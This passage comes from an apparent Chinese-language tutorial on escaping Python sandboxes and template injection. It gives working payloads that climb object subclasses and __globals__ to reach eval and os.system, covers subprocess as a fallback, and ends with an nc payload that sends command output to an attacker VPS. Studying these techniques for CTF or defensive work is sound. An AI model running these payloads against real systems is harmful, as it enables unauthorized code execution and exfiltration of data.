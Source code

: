 还需要了解一个魔法函数：`globals`，该属性是函数特有的属性,记录当前文件全局变量的值,如果某个文件调用了os、sys等库,但我们只能访问该文件某个函数或者某个对象，那么我们就可以利用globals属性访问全局的变量。该属性保存的是函数全局变量的字典引用

```bash
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls ").read()' )
```



**3.subprocess**

如果os被过滤了可以用subprocess

```python
1.subprocess.check_call()
Python 2.5中新增的函数。 执行指定的命令，如果执行成功则返回状态码，否则抛出异常。其功能等价于subprocess.run(…, check=True)。

2.subprocess.check_output()
Python 2.7中新增的的函数。执行指定的命令，如果执行状态码为0则返回命令执行结果，否则抛出异常。

3.subprocess.Popen(“command”)
说明：class subprocess.Popen(args, bufsize=0, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=False, shell=False, cwd=None, env=None, universal_newlines=False, startupinfo=None, creationflags=0)
Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，它是一个阻塞的方法，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，Popen方法也不会打印出cmd的执行信息。
```





__**init方法**

`__init__`方法用于将对象实例化，在这个函数下我们可以通过`funcglobals`（或者`__globals`）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。

```bash
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')

[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```



**无回显处理:**

当我们用os命令执行没回显时，可以用nc把回显发到vps上:

vps:

```bash
nc -lvvp 8888
```

payload: 

```bash
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls | nc <VPS的IP> <端口号>')
```
